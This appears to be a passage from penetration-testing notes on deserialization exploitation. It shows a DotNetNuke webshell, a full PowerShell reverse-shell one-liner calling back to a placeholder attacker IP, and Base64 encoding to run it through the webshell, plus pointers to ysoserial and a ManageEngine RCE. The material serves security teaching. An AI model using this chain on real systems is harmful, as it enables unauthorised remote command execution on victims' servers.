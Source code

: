 After the webshell is uploaded to the target host, we can visit it at
`http://dnn/dotnetnuke/cmdasp.aspx`. From
[Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1),
we can execute the following PowerShell one-liner to initiate a reverse shell
over TCP with our attacker host:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('{ATTACKER_IP}',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
```

That's a lot of text and special characters. We can invoke the following in
Bash to convert our PowerShell one-liner to PowerShell-friendly Base64
encoding:

```bash
iconv -f ASCII -t UTF-16LE powershellcmd.txt | base64 | tr -d "\n"
```

Finally, we can execute our reverse shell payload on the target webshell with:

```cmd
powershell.exe -EncodedCommand {Base64Payload}
```

## ysoserial

In the above sections we discussed manually constructing our deserialization
payloads, however, security researchers have been so gracious as to construct
applications that can automatically generate these payloads with known, working
gadgets. **ysoserial** comes in two (2) different flavors that target both Java
and .NET:

- [ysoserial - Java](https://github.com/frohoff/ysoserial)
- [ysoserial - C#](https://github.com/pwntester/ysoserial.net)

## ManageEngine Applications Manager

**ManageEngine**, another regular offender, amongst its various SQL injection
vulnerabilities, also had an unauthenticated deserialization of arbitrary Java
objects that could be accessed by the Java Runtime Environment (JRE) from
remote hosts. This vulnerability is explained and abused in the article below:

- [ManageEngine Applications Manager Deserialization Unauthenticated RCE](https://blog.jamesotten.com/post/applications-manager-rce/)

## Related pages

- [[reversing-java-web-applications|Reversing Java web applications]]
